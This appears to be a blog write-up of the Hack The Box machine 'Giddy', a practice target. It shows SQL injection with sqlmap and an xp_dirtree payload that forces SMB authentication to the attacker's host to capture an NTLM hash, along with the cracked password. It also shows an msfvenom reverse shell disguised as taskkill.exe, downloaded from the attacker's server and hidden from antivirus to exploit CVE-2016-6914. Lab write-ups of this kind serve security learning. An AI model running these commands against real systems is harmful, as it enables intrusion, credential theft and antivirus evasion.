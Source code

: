 ```yaml
---
layout: post
title:  "Hack The Box Giddy writeup (w/o Metasploit)"
date:   2019-10-22 11:52:14 -0400
featured_img: "/assets/nmap-10.10.10.104.png"
categories: giddy HTB
---
```


10.10.10.104 - Giddy

`nmap -sC -sV -O 10.10.10.104`

![nmap](/assets/nmap-10.10.10.104.png) Ports 80 and 443 are open. Name of the machine is 'Giddy'


Let's try searching directories on the server:

`root@kali:~/dirsearch# python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e asp -f -t 20 -u 10.10.10.104`

![dirsearch](/assets/dirsearch-10.10.10.104.png)


Here we can see two interesting paths:
- /remote
- /mvc


Let start with `/remote`

![dirsearch](/assets/remote-10.10.10.104.png)

We need credentials to login. But we do not have those. So let's look elsewhere.

Now let's try `/mvc`

![dirsearch](/assets/mvc-10.10.10.104.png)



Let's check for SQL injections
![search](/assets/search-10.10.10.104.png)

adding ' in the end of string gives us an error
![SQL injection](/assets/search-sqli-10.10.10.104.png)

So lets try running sqlmap

`sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10 --dump`

![SQL injection](/assets/sqlmap-10.10.10.104.png)

We are dealing with MSSQL server here



Given command will dump tables to `/root/.sqlmap/output/10.10.10.104/dump/Injection/`

![SQL injection](/assets/sqlmap-files-10.10.10.104.png)

But the only useful info we could find is the user --> `Stacy`
Ok. So what's next?
After some googling around.
Everybody was pointing to this post [https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html][xpdirtree] about xpdirtree

We can try to capture NTLM hash using xp_dirtree by making it connect to our SMB server or responder.

`xpdirtree : 1; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19\share'`

![SQL request](/assets/sqli-request-10.10.10.104.png)

Start smbserver.py to listen on our Kali machine

![listen with smbserver.py](/assets/smbserver-10.10.10.104.png)

and we got hash:

{% highlight shell %}
Stacy::GIDDY:
4141414141414141:e2b88cdd4f99f01556ca0199ca1db0e0:010100000000000000b58d3b6879d50
{% endhighlight %}

So I saved it to giddy_hash.txt file and try to crack it.
We can do it in `hashcat` or `john`

hashcat

![hashcat part 1](/assets/hashcat-10.10.10.104.png)

![hashcat part 2](/assets/hashcat2-10.10.10.104.png)

john

![john](/assets/john-10.10.10.104.png)

password: xNnWo6272k7x
So now, let's go to /remote and login with our creds

![login](/assets/login-10.10.10.104.png)

Congrats, we are in.

![login](/assets/user-flag-10.10.10.104.png)

and so, we got user.

Inside Documents folder we found a file name unifivideo.
Let's google it. Turns out there is a privesc cve ( CVE-2016-6914 ) for this application.
Here is a good explanation on how we can take advantage of it [https://www.exploit-db.com/exploits/43390][43390]

This part is the most interesting for us:

`By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM.`

So all we need here is to generate reverse shell file, name it taskkill.exe, copy it onto the
system and place it inside `C:\ProgramData\unifi-video\` folder.
Sounds easy.

So, first, we should generate reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f exe > taskkill.exe`

![msfvenom](/assets/msfvenom-10.10.10.104.png)

and upload our file:

`Invoke-WebRequest -o taskkill.exe http://10.10.14.19/taskkill.exe`

![login](/assets/bad-upload-10.10.10.104.png)


Oh no, something is wrong


Our file is not there. Why? Probably an antivirus blocking us from doing what we want.
There is a tool called phantom evasion ([https://github.com/oddcod3/Phantom-Evasion][Phantom]) that
will help obfuscate code of our reverse shell so antivirus can't recognize and block it.

![phantom1](/assets/phantom1-10.10.10.104.png)

We will use following options.
1 windows modules ,
1 shellcode injection
4 windows shellcode injection heapalloc

![phantom2](/assets/phantom2-10.10.10.104.png)

here we choose Msfvenom
And for encoding option 4: x86/xor_dynamic + Triple Multibyte-key xor

![phantom3](/assets/phantom3-10.10.10.104.png)

for multi processes behaviour , stripping and signing the executable we choose not to do that
This time when we upload the file it will work


Lets restart service and see waht is going on:
Restart-Service -Name "Ubiquiti UniFi Video"

![Restart Service](/assets/restart-service-10.10.10.104.png)

so we got the system

![root shell](/assets/root-shell-10.10.10.104.png)

And here goes our root flag

![Root flag](/assets/root-flag-10.10.10.104.png)



[43390]: https://www.exploit-db.com/exploits/43390
[Phantom]:   https://github.com/oddcod3/Phantom-Evasion
[xpdirtree]: https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html
